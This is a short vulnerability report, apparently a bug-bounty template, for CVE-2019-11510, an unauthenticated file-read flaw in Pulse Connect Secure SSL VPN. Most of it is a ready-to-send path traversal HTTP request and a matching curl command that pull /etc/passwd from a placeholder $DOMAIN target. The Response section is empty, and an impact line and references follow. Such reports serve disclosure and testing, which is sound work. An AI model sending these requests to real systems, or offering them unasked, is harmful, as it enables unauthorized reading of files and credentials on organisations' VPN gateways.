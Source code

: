 
# Pulse Connect Secure SSL VPN arbitrary file read vulnerability (CVE-2019-11510) [$DOMAIN]

In Pulse Secure Pulse Connect Secure (PCS) 8.2 before 8.2R12.1, 8.3 before 8.3R7.1, and 9.0 before 9.0R3.4, an unauthenticated remote attacker can send a specially crafted URI to perform an arbitrary file reading vulnerability .

## Steps To Reproduce


**Request**

```http
GET /dana-na/../dana/html5acc/guacamole/../../../../../../etc/passwd?/dana/html5acc/guacamole/ HTTP/1.1
Host: $DOMAIN
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36' 'https://$DOMAIN/dana-na/../dana/html5acc/guacamole/../../../../../../etc/passwd?/dana/html5acc/guacamole/'

```

**Response**








## Impact

A successful exploit could allow the attacker to view arbitrary files within the web services file system on the targeted device.
 
### Supporting Material/References
 
- https://blog.orange.tw/2019/09/attacking-ssl-vpn-part-3-golden-pulse-secure-rce-chain.html
- https://nvd.nist.gov/vuln/detail/cve-2019-11510


